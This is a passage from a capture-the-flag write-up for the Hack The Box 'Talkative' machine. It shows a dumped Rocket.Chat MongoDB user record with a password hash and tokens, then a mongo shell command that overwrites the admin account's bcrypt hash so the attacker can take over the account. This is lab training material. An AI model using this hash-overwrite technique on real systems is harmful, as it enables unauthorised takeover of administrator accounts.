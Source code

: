 ```shell
{ "_id" : "hwxi2CdRyhcaMLEv7", "createdAt" : ISODate("2023-08-12T09:25:19.756Z"), "services" : { "password" : { "bcrypt" : "$2b$10$ZzvI774QsRbwqKcMuwPKYujlGtYj2CWvJUSI3vlUloTQ7RrCsRI5a", "reset" : { "token" : "CSSAl8Un8br45AzI8NlMFORrWaUHPf_wKiRGOWNXP-v", "email" : "test@talkative.htb", "when" : ISODate("2023-08-12T09:25:21.867Z"), "reason" : "enroll" } }, "email" : { "verificationTokens" : [ { "token" : "y75Jde3l2lsOkpJQAg57YhCg6vX1Som4kWAZcsRy5Bf", "address" : "test@talkative.htb", "when" : ISODate("2023-08-12T09:25:19.797Z") } ] }, "resume" : { "loginTokens" : [ { "when" : ISODate("2023-08-12T09:25:20.011Z"), "hashedToken" : "iwc+pPqVZlmdxkWwS0cwQi76bs2YBLBZ2XI95V51h1M=" } ] } }, "emails" : [ { "address" : "test@talkative.htb", "verified" : false } ], "type" : "user", "status" : "online", "active" : true, "_updatedAt" : ISODate("2023-08-12T09:25:21.882Z"), "roles" : [ "user" ], "name" : "test", "lastLogin" : ISODate("2023-08-12T09:25:20.009Z"), "statusConnection" : "online", "utcOffset" : 8, "username" : "test" }
```

Which holds all users credentials and details.

We can try to crack user `admin`'s bcrypt password hash, but there's a smarter way.

**According to [Rocket Chat documentation](https://docs.rocket.chat/setup-and-configure/advanced-workspace-management/restoring-an-admin), we can just update the `admin` user's bcrypt password hash to whatever we want!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812173639.png)

**Let's update the `admin` user's bcrypt password hash!**
```shell
rs0:PRIMARY> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```
